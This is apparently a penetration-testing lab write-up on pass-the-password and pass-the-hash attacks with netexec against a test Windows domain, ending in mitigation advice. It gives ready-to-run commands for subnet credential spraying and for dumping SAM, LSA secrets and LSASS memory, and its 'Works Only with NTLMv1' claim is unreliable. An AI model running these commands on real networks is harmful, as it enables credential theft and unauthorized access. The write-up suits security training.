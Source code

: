 ## Overview

"Pass-the-Password" and "Pass-the-Hash" are lateral movement techniques used to exploit valid credentials and hashes to gain unauthorized access to machines within a network. These attacks bypass traditional authentication by directly passing the password or hash to authenticate with systems.

### Requirements for Pass Attacks

- **Valid credentials** (username and password) or **hashes** (dumped from tools like `secretsdump.py`).
- Administrative privileges (local admin) on the target systems.
- Tools: We'll be using `netexec` (`nxc` for shorthand in this lab) for these operations.

`netexec` is a tool used for executing commands over SMB and is designed for lateral movement across a Windows network, replacing the older `crackmapexec`. It allows you to interact with remote systems by passing passwords or hashes for local or domain accounts.

---

## Netexec Functionality

### Pass-the-Password Attack
Use a known password to authenticate across a network and check for local admin rights:
`netexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- `<ip/CIDR>`: Target IP address or range.
- `<user>`: Username to authenticate.
- `<domain>`: Domain name (use `.` for local accounts).
- `<pass>`: Password for the account.
### Pass-the-Hash Attack
Authenticate using an NTLM hash instead of a plaintext password:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`

- `-H <hash>`: NTLM hash of the password.
- `--local-auth`: Use local account authentication.
### Dumping SAM

Retrieve the Security Account Manager (SAM) database containing local user credentials:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`
### Enumerating Shares

List shared resources on remote systems:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares`
### Dumping LSA Secrets

Extract Local Security Authority (LSA) secrets, which might hold sensitive information such as service account credentials:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa`
### Using Modules

Run specific modules like `nanodump` to dump credentials from LSASS or perform other operations:
`netexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M nanodump`

---

## Lab Environment and Example Walkthrough

Below is the walkthrough of running pass-the-password and pass-the-hash attacks in the lab environment.

---

### Pass the Password

#### Step 1: Using NXC

`nxc smb <ip/CIDR> -u <user> -d <domain> -p <pass>` 

For example:

`nxc smb 192.168.163.0/24 -u j.smith -d quigley.local -p Password1`

- When conducting password pass attacks, it’s important to specify ranges or subnets.

![Example of passing the password to a subnet](../../../Images/Pasted%20image%2020250220214045.png)

- In this example, the password was passed to both workstations, where **j.smith** is a local administrator.
- On the Domain Controller (DC), while we had successful authentication, **j.smith** wasn’t a local admin, so we didn’t gain control of the DC.

---

### Pass the Hash

#### **Works Only with NTLMv1**

#### Step 1: Using NXC

`nxc smb <ip/CIDR> -u <user> -H <hash> --local-auth` 

For example:

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth`

![Example of passing the hash](../../../Images/Pasted%20image%2020250220214600.png)

- It's common to reuse the same local administrator password across devices in an environment. Once one is compromised, it can be passed around to other machines.
- In this case, the DC's local admin password was different from the one used on the workstations, so we were unable to access the DC.

---

### Dumping SAM

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam`

![Example of SAM dump](../../../Images/Pasted%20image%2020250220214813.png)

- This command dumps the hashes and stores them in our database.

---

### Share Enumeration

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares`

![Example of share enumeration](../../../Images/Pasted%20image%2020250220214949.png)

---

### LSA Dump

`nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa`

- Secrets dumped from LSA might not always be valid. Passwords could have changed since they were last stored and may be outdated.

---

### Lsassy/Nanodump

`sudo nxc smb 192.168.163.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M nanodump`

![Example of nanodump usage](../../../Images/Pasted%20image%2020250220222133.png)

---

## Pass Attack Mitigation

Limit account re-use:
	• Avoid re-using local admin password
	• Disable Guest and Administrator accounts
	• Limit who is a local administrator (least privilege) 
• Utilize strong passwords:
	• The longer the better (>14 characters)
	• Avoid using common words
• Privilege Access Management (PAM):
	• Check out/in sensitive accounts when needed
	• Automatically rotate passwords on check out and check in
	• Limits pass attacks as hash/password is strong and constantly rotated